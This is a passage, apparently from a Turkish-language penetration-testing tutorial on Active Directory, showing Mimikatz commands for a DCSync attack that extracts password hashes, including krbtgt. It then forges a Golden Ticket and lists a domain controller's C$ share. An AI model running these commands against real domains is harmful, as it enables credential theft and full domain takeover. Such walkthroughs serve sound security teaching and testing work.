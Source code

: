 Bu işlemden sonra DCSync saldırısı ile kullanıcı parola hash değerleri elde edilebilmektedir.

```powershell
Mimikatz.exe "lsadump::dcsync /user:<kullanıcı adı>" "exit"
```
![Dcsync saldırısı ile krbtgt parola hash elde etme](images/7.png)

Yetkili kullanıcı parola hash değerleri elde edilerek sistemde daha tehlikeli haraketler sergilenebilmektedir. Golden Ticket saldırısı gerçekleştirerek DC sunucusunun C dizinine CIFS servisi üzerinden erişim sağlanabilmektedir.

```powershell
Mimikatz.exe "kerberos::golden /startoffset:0 /endin:600 /renewmax:10080 /user:<kullanıcı adı> /domain:<domain adı> /sid:<domain sid değeri> /aes256:<krbtgt parola hash değeri> /id:<500> /groups:<group idleri> /ptt" "exit"
```

```powershell
dir \\<dc.domainadı>\c$
```

![Golden Ticket saldırısı gerçekleşirme](images/8.png)
